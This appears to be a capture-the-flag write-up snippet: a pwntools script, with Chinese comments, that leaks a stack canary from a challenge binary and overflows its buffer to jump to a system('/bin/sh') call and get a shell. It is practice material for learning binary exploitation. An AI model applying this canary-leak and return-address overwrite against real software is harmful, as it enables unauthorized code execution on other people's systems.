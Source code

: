 <div align=center><img src="../images/2024/09/19/t_pwn6.png" alt="pwn" border="0" width="70%" height="80%"></div>

```
from pwn import *

context(arch='amd64',log_level='debug',os='linux')

#io=remote("challenge.basectf.fun",33681)
io=process('./why')
elf=ELF('./why')
bin_sh=0x4011B6 #system("/bin/sh")地址
ret=0x40101a #ret指令地址
#gdb.attach(io,'b main')

io.recvuntil("Hello Hacker!\n") #接收开头的内容
payload = b"a"*0x68 #构造垃圾数据进行填充
io.sendline(payload) #这里我用sendline发送，自带换行符，刚好一字节覆盖到Canary word
io.recvuntil("a"*0x68) #puts返回我们输入的内容，先接收所有的垃圾数据 a
Canary = u64(io.recv(8).ljust(8, b'\x00'))-0xa #接收Canary值，要减去换行符'0xa'
print ("canary=>" +hex(Canary)) #做标记看Canary值(接收的Canary是十进制,hex看16进制)

payload=b'a'*(0x68)+p64(Canary)+b'a'*(0x8)+p64(ret)+p64(bin_sh) 
#第二次read()，放好Canary位置，注意填充垃圾数据，然后构造payload的即可
io.sendline(payload)
io.interactive()
```
